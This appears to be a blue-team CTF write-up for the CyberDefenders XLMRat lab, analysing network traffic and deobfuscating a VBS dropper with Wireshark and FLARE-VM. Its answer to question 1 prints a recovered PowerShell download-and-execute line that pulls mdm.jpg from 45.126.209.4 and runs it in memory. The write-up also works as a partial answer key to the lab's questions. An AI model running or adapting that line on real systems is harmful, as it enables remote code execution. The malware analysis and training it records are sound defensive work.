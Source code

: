 CyberDefenders CTF Lab XLMRat
---

https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/

#### Scenario

Analyze network traffic to identify malware delivery, deobfuscate scripts, and map attacker techniques using MITRE ATT&CK, focusing on stealthy execution and reflective code loading.


#### Machine Environment 

- Windows 10 running in VMware workstation
- Flare Windows Install https://github.com/mandiant/flare-vm
- WireShark


### 1.  The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?
---

This pcap consists of 2 host conversations.
	
Wireshark -> Statistics -> Conversations

![image](https://github.com/user-attachments/assets/fe8eb902-92f8-42c3-86f2-251547f74dae)

The first GET request is for a xlm.txt file sourced from 10.1.9.101 and destined to 45.126.209.4

![image](https://github.com/user-attachments/assets/5387616c-63b1-4456-883b-c174120e23e0)

Use WireShark to export the HTTP files to your Windows Flare VM
	
File -> Export Objects -> HTTP

![image](https://github.com/user-attachments/assets/43b4cef2-81a7-46b1-93e1-0bba88230c9c)

The xlm.txt file contains a Visual Basic Script (VBS) that declares an array and stores pieces of code that gets concatenated using a for loop.

![image](https://github.com/user-attachments/assets/bf331842-daba-41a5-abca-11a863e6ae8d)

***RUN CODE AT YOUR OWN RISK
 
By placing the wscript.echo command we can view the output of the variable to the console.

![image](https://github.com/user-attachments/assets/96a50816-aebd-4861-b747-3c543bc282e9)

Open a command prompt and run the .vbs file with cscript.exe displaying the output. 

![image](https://github.com/user-attachments/assets/14dea8b7-4225-46fc-9493-9841ff497ff3)

Bring the output into a text editor and clean it up.  The "[BYTe[]]" lines are not useful and probably a way to confuse people and machine.  

	$A123 = "IeX(NeW-OBJeCT NeT.W"
	$B456 = "eBCLIeNT).DOWNLO"
	$C789 = "'VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING')"
	IeX($A123+$B456+$C789)

This script downloads the first stage of malware and executes in into memory using Invoke-Expression (IeX)

### 2.  
Which hosting provider owns the associated IP address?
---

Using a web site like https://whois.domaintools.com/ shows the hosting provider name.

![image](https://github.com/user-attachments/assets/bd612ade-da08-4bc9-9dff-108e6e7c696e)

### 3.  By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?
---

Analyzing the mdm.jpg file we open it with a text editor to see two long HEX variables some PowerShell and VBS.  Lets isolate both HEX variables into their own files and convert those HEX files to executable.  Part of the mdm.jpg file has the script needed to convert since it performs those actions when run.  

![image](https://github.com/user-attachments/assets/704145a1-65f9-4ed7-bc55-6f53e6a4fb87)

Create a simple PowerShell script to convert both HEX values to executables.

![image](https://github.com/user-attachments/assets/33894fb9-3ff8-446f-8a38-8a1c6968e6b2)

Both newly created file details show their original filename.  Stub.exe and NewPE2.dll		

![image](https://github.com/user-attachments/assets/91988140-e6d6-4e92-8c7f-8bb3dc715949)

Get the SHA256 of the Stub.exe file as this is the malware executable

![image](https://github.com/user-attachments/assets/0d421874-af85-4e08-a789-8e78e273b443)

### 4.  
What is the malware family label based on Alibaba?
---


### 5.  What is the timestamp of the malware's creation?
---


### 6.  Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.
---

We can grab the portion of LOLBin code and run it independently giving us the path.

![image](https://github.com/user-attachments/assets/13cc40ff-696e-48e3-b7a6-887eeb74c973)

### 7.  The script is designed to drop several files. List the names of the files dropped by the script.
---

	-The malware creates a PowerShell script (conted.ps1) containing the 2 HEX variables and loads NewPE2.dll
	-Then creates a bat file (conted.bat) which uses powershell.exe to run the ps1 file.
	-Finally creating a .vbs (conted.vbs) which leverages WScript.shell to run conted.bat

![image](https://github.com/user-attachments/assets/f4c95d80-08c0-4a0f-9bd6-1658b410fe33)
![image](https://github.com/user-attachments/assets/750c2c1c-7c0a-4c1b-af10-8c002f41ce4c)























